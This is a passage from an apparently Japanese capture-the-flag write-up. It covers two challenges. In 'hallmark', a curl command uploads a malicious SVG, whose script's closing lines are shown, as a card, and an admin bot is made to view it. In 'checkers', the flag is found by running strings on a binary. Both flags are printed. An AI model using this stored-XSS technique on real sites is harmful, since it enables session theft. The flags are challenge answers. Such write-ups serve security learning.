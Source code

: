 ```svg
            });
        })();
    </script>
</svg>
```
そして、作成したファイルを`PUT /card`で1枚目のカードに書き込みます。
```shell
curl -X PUT https://hallmark.web.actf.co/card -d "id=(1枚目のカードのID)" --data-urlencode "type[]=image/svg+xml" --data-urlencode "content@malicious.svg"
```

最後に管理者ボットに1枚目のカードへアクセスさせます。その後、2枚目のカードを閲覧すると、フラグが書かれていました。

```
actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}
```

### checkers (Rev)
与えられた実行可能ファイルに対してstringsコマンドを使ったところ、フラグが出てきました。

```sh
❯ strings checkers
...
actf{ive_be3n_checkm4ted_21d1b2cebabf983f}
...
```